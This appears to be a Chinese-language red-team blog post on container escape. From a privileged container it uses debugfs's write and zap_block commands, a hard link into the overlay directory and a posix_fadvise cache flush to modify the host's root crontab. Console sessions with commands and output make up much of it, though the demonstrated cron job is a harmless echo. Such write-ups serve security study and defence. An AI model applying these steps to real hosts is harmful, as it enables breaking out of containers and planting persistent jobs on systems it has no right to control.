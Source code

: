 ```yaml
---
layout: post
title: debugfs在容器逃逸中的作用
---
```

## 0x00 前言
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)中提到，在特权容器、`sys_admin`、`lxcfs`场景下，我们可以通过创建`cgroup devices subsystem`,修改`devices.allow`设置设备的访问权限，创建设备文件目录，并通过debugfs去访问宿主机的文件，达到逃逸的目的；由于`debugfs`不支持很多常用`linux`的命令，如`cp、echo`等，我们不能很方便的写文件到宿主机，虽然实战中我们可以通过cat命令去读取k8s的配置文件，但是如果需要写文件到宿主机，这时候该怎么办呢？
## 0x01 什么是debugfs
- debugfs - ext2/ext3/ext4 file system debugger

debugfs主要用来对ext2/ext3/ext4文件系统进行调试，可以用来恢复文件，更多使用[参考](https://man.archlinux.org/man/debugfs.8.en)  
## 0x02 debugfs中的write和zap_block
`debugfs`的`write`和`zap_block`命令可以写入文件，我们分别来介绍它们。  
write:
```html
write source_file out_file
    Copy the contents of source_file into a newly-created file in the filesystem named out_file.
```
通过`write`命令我们可以将容器中的文件复制到宿主机中。
演示： 
实验环境：特权ubuntu容器  
```console
#在容器的bash中
root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
debugfs -w /dev/sda1 #读写模式打开/dev/sda1
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /tmp                 
debugfs:  write /tmp/testfile.txt testfile-host.txt #将容器中的/tmp/testfile.txt文件复制到宿主机的tmp目录中
Allocated inode: 787881
debugfs:  cat testfile-host.txt #读取复制的文件成功
test

#回到宿主机
ubuntu1@123:/tmp$ ls -l testfile-host.txt 
-rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
```
可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
```console
root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root   
root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /var/spool/cron/crontabs
debugfs:  write /tmp/root root
Allocated inode: 135695
debugfs:  

#回到宿主机
ubuntu1@123:/tmp$ sudo ls -l /var/spool/cron/crontabs/
ls: cannot access '/var/spool/cron/crontabs/root': No such file or directory
total 0
-????????? ? ? ? ?            ? root
```
可以看到，此时的文件是有问题的，这样是不能执行计划任务的,通过查阅资料<https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/>  
文章中提到
```
Unfortunately, due to the same constraint we explained with the write cache, 
changes to /dev/sda5 would not propagate to the view of the /etc/passwd file 
until its cached pages are discarded. Meaning, we were only able to overwrite 
files that were not recently loaded from disk to memory, or otherwise wait 
for a system restart for our changes to apply. 
```
由于`crontabs`目录下的文件会不停的从磁盘中加载到内存，我们写的文件是有缓存的，只有等到重启才能够成功，然而实战情况不可能让你重启系统，所以如果使用write去复制文件到宿主机，不能够操作类似于计划任务这种不间断需要从磁盘加载到内存的文件。  
接着学习前面的文章：
```
This hard link still requires root permissions to edit, so we still had to use zap_block
to edit its content. We then used posix_fadvise to instruct the kernel to 
discard pages from the read cache (flush them, hence the name of the technique), 
inspired by a project named pagecache management (source: fadv.c slightly edited by us). 
This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
```
文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
```console
root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
2694190
debugfs:  zap_block -o 15 -l 3 -p 0x41 2694190 #将ascii值为41的字符写入到第15个位置，向后替换3位
debugfs:  ln /var/spool/cron/crontabs/root /var/lib/docker/overlay2/fb877e934027ebf552cffe9e7cac5b84512c575c75f5008c3f58ccc277e7c62f/diff/tmp/
debugfs:  q
root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
```
这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>  
这时我们返回宿主机，查看root用户的计划任务:
```console
ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
* * * * * echo AAAt >> /tmp/root1.txt
```
可以看到，已经成功写入并不受缓存影响。

## 0x03 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c
- https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/
- https://man.archlinux.org/man/debugfs.8.en
